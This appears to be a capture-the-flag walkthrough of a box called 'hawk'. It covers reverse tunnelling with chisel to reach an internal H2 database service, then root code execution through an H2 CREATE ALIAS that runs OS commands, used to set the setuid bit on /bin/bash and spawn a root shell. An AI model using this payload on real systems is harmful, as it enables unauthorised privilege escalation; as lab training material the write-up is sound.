







# 20 - H2 


# Remote connections are disabled


Since we got shell access to this box, we can create a tunnel. SSH tunneling didn't work on this box it may have something to do with port 22, maybe a firewall is dropping connection requests to port 22 but I just didn't feel like using ssh on another port so I decided to use chisel for tunneling.

# [Chisel](https://github.com/jpillora/chisel)



Start up chisel server on port 8081 and allow reverse port forwarding, this will help us connect to port 8082 locally from our box through tunneling. I have Burp running on 8080 so I wanted to go with 8081 for chisel


# Chisel Client



R:8082:127.0.0.1:8082

* R  for reverse tunneling this will open a port on our box for forwarding.
* 8082 is the listening port for forwarding
* 127.0.0.1:8082 is the final address to forward to with respect to chisel client

In other words any request we make to port 8082 on our box will be forwarded to the other box on port 8082 through chisel.

# Request through tunneling




Now we are allowed to view the page


# H2 with root permissions
```sql
www-data@hawk:/dev/shm$ ps aux  | grep h2 | grep -v grep
root        791  0.0  0.0   4628   744 ?        Ss   09:03   0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root        792  0.0  4.6 2331304 46100 ?       Sl   09:03   0:07 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
```

This looks like a privilege escalation target.


# Test Successful


New database ~/ennozdd with default blank password




# [Code execution as root](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)



# Enable setuid
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('chmod +s /bin/bash')
```

# Root shell
```sql
daniel@hawk:/dev/shm$ bash -p
bash-4.4# id
uid=1002(daniel) gid=1005(daniel) euid=0(root) egid=0(root) groups=0(root),1005(daniel)
bash-4.4# 
```